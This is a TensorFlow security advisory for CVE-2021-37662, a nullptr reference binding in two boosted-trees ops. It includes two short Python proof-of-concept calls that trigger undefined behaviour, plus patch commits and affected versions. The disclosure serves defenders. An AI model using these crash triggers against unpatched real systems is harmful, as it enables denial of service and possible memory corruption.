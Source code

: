 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-136.md
## TFSA-2021-136: Reference binding to nullptr in boosted trees

### CVE Number
CVE-2021-37662

### Impact
An attacker can generate undefined behavior via a reference binding to nullptr
in `BoostedTreesCalculateBestGainsPerFeature`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesCalculateBestGainsPerFeature(
  node_id_range=[],
  stats_summary_list=[[1,2,3]],
  l1=[1.0],
  l2=[1.0],
  tree_complexity =[1.0],
  min_node_weight =[1.17],
  max_splits=5)
```

A similar attack can occur in `BoostedTreesCalculateBestFeatureSplitV2`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesCalculateBestFeatureSplitV2(
  node_id_range=[],
  stats_summaries_list=[[1,2,3]],
  split_types=[''],
  candidate_feature_ids=[1,2,3,4],
  l1=[1],
  l2=[1],
  tree_complexity=[1.0],
  min_node_weight=[1.17],
  logits_dimension=5)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/stats_ops.cc)
does not validate the input values.

### Patches
We have patched the issue in GitHub commit
[9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad](https://github.com/tensorflow/tensorflow/commit/9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad)
and in commit.
[429f009d2b2c09028647dd4bb7b3f6f414bbaad7](https://github.com/tensorflow/tensorflow/commit/429f009d2b2c09028647dd4bb7b3f6f414bbaad7).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
